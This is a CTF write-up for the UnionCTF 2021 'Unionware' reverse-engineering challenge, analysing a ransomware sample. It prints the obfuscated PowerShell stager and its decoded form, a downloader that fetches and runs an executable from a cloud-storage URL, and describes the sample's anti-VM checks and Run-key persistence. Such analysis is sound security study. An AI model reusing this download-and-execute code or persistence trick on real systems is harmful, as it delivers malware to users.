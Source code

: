 +++
title = "[UnionCTF 2021 - RE] Unionware"
tags = ["ctf", "unionCTF 2021", "RE", "RC4", "supersnail", "powershell", "anti debug", "aaSSfxxx", "RSA", "2021"]
date = "2021-02-22"
+++

# UnionCTF - Unionware

This challenge gives us two files: an "unionware.ps1" and a "important_homework.txt.unionware" containing seemingly random bytes. The challenge tells us that a ransomware encrypted the important homework and asks us to decrypt it.

## Analyzing the Powershell

While looking at the powershell, we can see an obfuscated Powershell command, which seems to split some random string and then evaluating it. So, we'll just run the part of the script which deobfuscates the payload without executing it, which give us:

```powershell

-joIN ( '105%102n40%36n69M78%86M58:85%115a101_114M68n111:109u97C105n110C32n45M101a113C32n34:72O77O82C67u34O41u32u123a13:10_32H32n32M32:40u78_101H119n45u79%98%106H101O99n116C32H39:78H101n116C46M87H101u98O67_108M105H101M110M116C39n41M46M68n111u119u110O108n111M97n100M70n105H108O101u40%34:104n116u116n112a115M58u47C47M115a116n111C114M97n103a101M46a103C111a111u103O108C101%97a112u105_115n46_99M111n109_47M101M117n45:117C110_105H111H110%99H116_102O45u50u48C50u49O47u108n110n69M76:75:78n100O111H105a101:46n101_120M101n34M44O32C34C36_69n78M86_58a116n101u109O112H92H108_110a69_76%75%78a100a111:105u101_46:101n120%101:34C41O13M10a32u32u32u32M115n116M97n114u116%32n36O69M78u86M58_116:101n109a112:92a108O110M69a76M75O78C100a111:105u101:46M101u120C101%13:10n125' -spLIT'a'-SPlIT'n'-SPLit ':'-spLiT 'u'-sPLIT '%' -SpLiT 'O' -sPLiT 'H'-SpLit'C' -SPLit'M' -spLIt '_' |%{ ( [ChAr][int]$_)} )

```
Unfortunately Windows Defender detects it as a malware, so we have to tell it to stfu, and then we get:
```powershell

if($ENV:UserDomain -eq "HMRC") {
    (New-Object 'Net.WebClient').DownloadFile("https://storage.googleapis.com/eu-unionctf-2021/lnELKNdoie.exe", "$ENV:temp\lnELKNdoie.exe")
    start $ENV:temp\lnELKNdoie.exe
}

```
The Powershell script is just a downloader for another executable we'll need to analyze

## Payload analysis
The executable is a 32-bit binary. The main function does a lot of anti-VM checks which were a bit annoying to bypass`, with function calls dynamically resolved through LoadLibrary/GetProcAddress with obfuscated strings.

```text
.text:00402177 loc_402177:                             ; CODE XREF: _main+6E↑j
.text:00402177                 call    AntiVMCheck1
.text:0040217C                 call    AntiVMCheck2
.text:00402181                 call    AntiVMCheck3
.text:00402186                 rdtsc
.text:00402188                 mov     esi, eax
.text:0040218A                 mov     edi, edx
```
After some debugging in x64dbg, I figure outd that the malware checks if it's installed into HKCU\Software\Microsoft\Windows\CurrentVersion\Run under the REG_SZ value "slkkmeLDDF". if not, it calls an install function to set up that key with the module path.
